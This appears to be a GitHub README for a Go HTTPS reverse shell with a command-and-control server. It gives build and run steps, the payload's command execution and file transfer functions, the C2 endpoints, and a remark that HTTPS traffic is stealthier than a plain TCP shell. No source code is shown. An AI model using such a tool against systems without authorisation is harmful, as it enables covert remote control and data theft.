 # https-reverse-shell-golang

A HTTPS reverse shell implemented in the Go programming language. 

## Prerequisites

* You need to have ```Golang``` installed on your system and have the variables ```$GOPATH``` and ```$GOBIN``` set.
* Install ```go-bindata``` via ```$ go get -u github.com/go-bindata/go-bindata/...``` 
(and install to bin via ```$ go install```)
* Install ```openssl``` in order to generate your cert/key pair.

## Build

In order to build, you need to create a server cert/key pair like this:

```
$ openssl genrsa -out server.key 2048
$ openssl req -new -x509 -sha256 -key server.key -out server.crt -days 3650
```


Put the ```server.cert``` and  ```server.key```  into the corresponding resource directories:

```
c2  
└─resources
│    server.crt
│    server.key
payload
└─resources
│    server.crt

```

Now you need to generate the resource file and build the binary:

```
$ cd c2 && go generate && go build
$ cd payload && go generate && go build
```

Eventually, you can run the binaries:

```
$ ./c2
[+] Server listening on (:4433)
```

```
$ ./payload
[+] Calling home to c2 to get cmd...
```

## Functionality

* Arbitrary command execute
* File upload
* File download

## Details

The payload calls home to the c2 server in an endless loop until it receives the "quit" command. The c2 requests a command from the user upon beacon from the payload. You can send any CLI arguments and upload/download arguments in the form of:

```CMD > upload <localFilePath> <remoteFilePath>```

```CMD > download <remoteFilePath> <localFilePath>```

(localFilePath := on the target machine, remoteFilePath := on the c2 machine)

The c2 server implements the following endpoints:
* ```/getcmd``` - Asks the user for a command to send to the payload
* ```/cmdouput``` - Retrieves the output for the command executed on target machine through payload
* ```/upload``` - Handles upload requests
* ```/download``` - Handles download requests

The communication is encrypted via TLS. The general benefit of a HTTP/S reverse shell over a regular TCP reverse shell is that the traffic looks more legit and thus is stealthier.


## Outstanding improvements

* Implement multi-user (multiple payloads) management
* Implement change directory cmd
